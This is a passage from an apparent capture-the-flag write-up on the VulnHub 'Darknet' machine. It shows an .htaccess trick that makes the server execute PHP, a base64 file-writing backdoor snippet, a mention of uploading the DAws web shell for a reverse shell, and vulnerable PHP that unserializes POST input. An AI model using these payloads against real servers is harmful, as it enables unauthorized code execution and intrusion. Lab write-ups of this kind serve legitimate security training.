 ```sourceCode
Order deny,allow
Allow from all
ErrorDocument 404 https://google.com
```

This should direct me to `google.com`, which it does, indicating `.htaccess` overrides work here. So what can I do from here that will either allow me to upload a PHP shell or do something else?

Unfortunately there's another issue: as I upload files, old files seem to get deleted. I found this out when the 404 redirect stopped working after uploading an html file.

Luckily I discovered that it's possible to execute php code inside the .htaccess file.

```sourceCode
AddHandler application/x-httpd-php .htaccess
DirectoryIndex .htaccess
<FilesMatch "^\.htaccess">
Order deny,allow
Allow from all
SetHandler application/x-httpd-php
</FilesMatch>

#<?php print $_GET["test"]; ?>
```

Sure enough the `$_GET["test"]` variable is on the page. So this should allow me to get a run some useful code on there somehow.

After following some blind leads, I wrote a php script that would take a file encoded with base64 and a filename via a `POST` method and write this file out. (Note: appending the entire script for DAws or similar didn't work). Something like this should work though:

```sourceCode
$fp = fopen($_POST['name'], 'wb');
fwrite($fp, base64_decode($_POST['data']));
fclose($fp);
```

At the end of the `.htaccess` file. However this always error with a permissions error.

After struggling with this for quite some time I got some help from a fellow \#vulnhub resident who helped me out with something I missed. It's `suphp` not `php`, so I wasn't executing the script as the `errorlevel` user. Derp.

More info on [suphp](https://suphp.org/Home.html)

## Stage 5

So having sorted that I uploaded `DAws` and got myself a reverse shell and explored once more. Now inside `/var/www` there's some files I missed earlier: `sec.php`, `Classes/Test.php`, and `Classes/Show.php`. Interesting.

Trying to hit `darknet.com/sec.php` errors. Let's take a look inside of it

```php
<?php

require "Classes/Test.php";
require "Classes/Show.php";

if(!empty($_POST['test'])){
    $d=$_POST['test'];
    $j=unserialize($d);
    echo $j;
}
?>
```
